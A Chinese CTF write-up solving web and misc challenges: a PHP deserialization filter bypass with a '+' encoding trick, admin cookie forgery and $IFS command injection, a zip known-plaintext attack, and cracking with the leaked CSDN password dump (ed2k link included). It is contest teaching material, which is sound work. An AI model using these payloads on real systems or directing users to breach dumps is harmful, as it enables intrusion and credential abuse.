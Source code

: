 [TOC]



# web1-easy

## 解题思路

首先打开题目链接，看到的是一段源代码

```php
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

通过查看源代码，可以发现，可以利用反序列化进行任意文件读取。

自带了一个baby类，里面的`_toString()` 可以使用`file_get_contents` 读取文件内容。

本地构造序列化：

```php
O:4:“baby”:1:{s:4:“file”;s:8:“flag.php”;}
```

由于存在过滤语句

```
preg_match('/[oc]:\d+:/i',$data,$matches);
```

因此需要绕过过滤。waf掉了`[oc]:` 数字

可以使用`+` 绕过，但是直接传入符合，会被服务器认为是空格，因此需要编码后传输。

最终的payload就是

```php
O:%2b4:"baby":1:{s:4:"file";s:8:"flag.php";}
```

输入url如下

```php
101.71.29.5:10027/?data=O:%2b4:"baby":1:{s:4:"file";s:8:"flag.php";}
```

查看源代码，可以发现flag

# web2-ezweb2

## 解题思路

首先打开页面，发现是一个cms的常规首页页面，源代码各方面未发现任何问题。

使用burp抓包。

发现首页页面在cookie中存在一个字段` user=dXNlcg%3D%3D` ，将`dXNlcg%3D%3D` 转码后，得到的内容是`user` 。

猜测这个可以更改为`admin` 来伪造管理员。将`admin` 使用base64转码，`YWRtaW4=` ，转码完成后篡改数据包。
![1547264443236](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264443236.png)

forward以后，会发现跳转到`/admin.php` 页面，同样cookie中还存在一个user字段，并且依然需要修改。

![1547264511102](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264511102.png)

成功进入管理后台页面。

![1547264541800](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264541800.png)

尝试输入内容，并抓包，发现这是一个命令行窗口。可以用来执行命令。但是经过尝试，过滤了空格。需要想办法绕过空格。

linux下，可以通过`$IFS` 来代替空格。因此构造payload

```
ls$IFS/
```

![1547264725787](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547264725787.png)

可以发现，根目录有个文件叫做`ffLAG_404` ，我们查看这个文件

```
cat$IFS/ffLAG_404
```

成功拿到flag

# misc1-签到

## 题干

关注"安恒网络空间安全讲武堂",去寻找你的flag吧! 

## 解题思路

前往公众号，输入`flag`

回复说让回答一个急转弯:什么牛不会跑（打一动物），答案是蜗牛

然后又让输入：安恒杯月赛我来了

终于拿到flag

# misc2-学习资料

## 题干

你能发现这学习资料下的真实的东西么？ 

附件的下载链接：

https://xpro-adl.91ctf.com/userdownload?filename=5c19f90d2677e.zip&type=attach&feature=2018-12

## 解题思路

下载文件，是一个zip

打开以后发现其中有一个加密的zip文件和txt文件。

![1547451546550](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547451546550.png)

其中“只要学不死就往死里学”中也包含文件“备忘录.txt”。猜测这用到了zip的明文攻击。

使用winrar，将解压出来的“备忘录.txt”压缩为zip文件（一定要用winrar，不然加密算法不一致，会无法使用）

使用archpr 4.53的明文攻击模块，进行攻击。

![1547452165583](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547452165583.png)

最终得到文件口令`1qazmko098`

解压后，打开另一个word文档"学习资料.docx"

![1547452256355](F:\学习资料\github\ctf-writeup\安恒杯\第27周\assets\1547452256355.png)

看到如上内容，将图片移开，看到flag

但是，无法复制。

直接将word文件以压缩文件的方式解压缩一遍，找到`word/document.xml`文件，里面有flag，直接复制提交即可。

# misc3-变换的指纹

## 题干

这是个粗心的出题人，压缩秘密都是直接复制来就往里塞 

一个压缩文件

## 解题思路

首先打开压缩文件，提示内容是

```
还记得那年的CSDN用户数据泄露时间吗？解压密码就在里边哦！
暴力破解是不明智的选择，要充分发挥百度或者谷歌的作用。
```

根据提示，果断找CSDN用户数据泄露时间点啊。找到是2011年12月21日，猜测密码是`20111221`，发现不是，果然太单纯。那就说明要撞库了，去下载csdn用户密码爆破吧。

csdn社工库的地址如下：

ed2k://|file|www.csdn.net.sql|287238395|7C81CC2A2B57411BD107ACFF2BA8DDEE|/ 

最后爆破出来的密码是`!(()!@)6125dou  `，注意最后有一个空格。

解压出来是一个gif文件。其中包含44个帧，每一帧包含一个数字。

最终将所有数字收集下来以后，得出如下字符串：



未解









